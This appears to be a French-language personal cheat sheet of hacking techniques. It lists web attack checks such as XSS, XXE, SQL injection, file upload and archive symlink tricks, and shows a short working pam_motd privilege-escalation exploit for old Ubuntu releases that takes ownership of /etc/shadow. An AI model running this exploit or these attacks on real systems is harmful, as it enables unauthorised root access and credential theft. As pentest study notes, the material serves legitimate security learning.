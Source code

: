 <head>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
</head>
[index](index.html)

## Hacking machines

### Utilisation de Kali

- Installer une full pour avoir metasploit

- Les wordlists sont dans /usr/share/wordlists

### Recherche vulnerabilités

- Banner grabbing: $nc [ip] [port] : ex donne info sur serveur web.

### [Metasploit](hacking-metasploit.html)

## Hacking web

### Les attaques
1. Regarder le source généré (CTRL+U sur Firefox)
- Regarder les autres fichiers chargés (y.c leur code source, notamment pour js et css)
- Décoder le fonctionnement du javascript
- Tester les user/pwd triviaux. Liste : 
- Fichiers backup (~, bak, old, sav)
- Regarder si un fichier robots.txt est présent
- Fichiers autogénérés comme .pyc si site en python
- La présence d'un répertoire de livraison
- La présente du répertoire .git/ ou .svn... ou même /git
- [XSS injection](xss.html)
- XXE : un peu comme XSS mais grace aux entités et aux dtd. A noter qu'on peut faire des XXE permettant d'envoyer le résultat avant la fin de la page.
- XSL : il est possible de faire des choses sympa si on peut modifier le xsl : connaître le moteur xsl et sa version, dans certains cas injecter des commandes, lire des documents choisis (ou en partie), voire même écrire.
- Injection sql (blind, différents moteurs, time attack, tables systèmes)
- Injection xpath (cf sql)
- LFI : upload de fichier (mime, extension, php dans fichier, null byte dans nom) + moyen executer
- S'il est possible d'uploader des fichiers compressés (ou au moins .tar) qui seront décompressés : mettre un symlink 
- Modification du user-agent ou autres parties header
- Lire aussi le header de retour
- Modification du cookie
- Directory indexing/traversing - Essayer de deviner les répertoires
- Fichiers/répertoire d'install
- CRLF : permet de leurrer utilisateur, ou mailer
- PHP : register globals (pour les var non initialisées) - vieilles versions
- [PHP wrappers](phpwrappers.html) : affiche contenu des fichiers php...

### Les outils

1. md5sum : Pour générer la somme md5. Ex: echo bob | md5sum

- python -c "import crypt, getpass, pwd; print crypt.crypt('password', '\$6\$salt\$')"
=> pour creer /etc/shadow

- Serveur web avec netcat : while true; do nc -l -p 8080 < index.html; done 
UTILISER EN FAIT nc.traditional au lieu de nc
http://www.monip.org : 82.238.192.170

Exploit linix :
sur ubuntu non patche:
Aujourd'hui, une faille de sécurité assez simple à mettre en oeuvre a été révélée. Elle n'impacte que la distribution Linux Ubuntu sur les versions 9.10 et 10.04.

Celle-ci concerne donc ce problème de sécurité qui permet à n'importe quel utilisateur loggué sur la machine d'acquérir les droits du compte root (superadmin).

L'exploit se base sur une faiblesse du module pam_motd qui est intégré dans la chaine d'authentification.

Il est donc possible de simplement le retirer la pile pam via les fichiers de configuration ou de mettre à jour comme préconisé.

Je vous communique l'exploit à titre d'information:

Admettons que je sois loggué sur la machine sous l'utilisateur: franck

---

rm -rf ~/.cache

ln -s /etc/shadow ~/.cache

ssh localhost

---

Vous voila propriétaire du fichier /etc/shadow !

Ce qui vous permettra bien évidemment de récupérer l'accès root...

- Manipuler de l'hexa : xxd et hd



